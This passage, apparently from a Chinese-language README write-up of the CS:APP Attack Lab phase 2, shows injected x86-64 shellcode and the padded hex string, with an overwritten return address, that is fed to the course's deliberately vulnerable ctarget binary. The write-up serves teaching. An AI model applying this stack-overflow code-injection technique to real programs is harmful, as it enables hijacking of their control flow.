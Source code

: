 ![phase2](./README.assets/phase2.png)

然后依次运行

```bash
gcc -c p2.s # 编译
objdump -d p2.o > p2.byte # 翻译为字节码
```

得到 `p2.byte`：

```asm

p2.o:     file format elf64-x86-64


Disasm of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 10 76 a6 11 	mov    $0x11a67610,%rdi
   7:	68 58 1f 40 00       	push   $0x401f58
   c:	c3                   	ret

```

组合我们的代码：

```asm
48 c7 c7 10 76 a6 11 68
58 1f 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
88 46 63 55
```

依次运行：

```bash
./hex2raw < p2.txt > p2a.txt
./ctarget -i p2a.txt
```
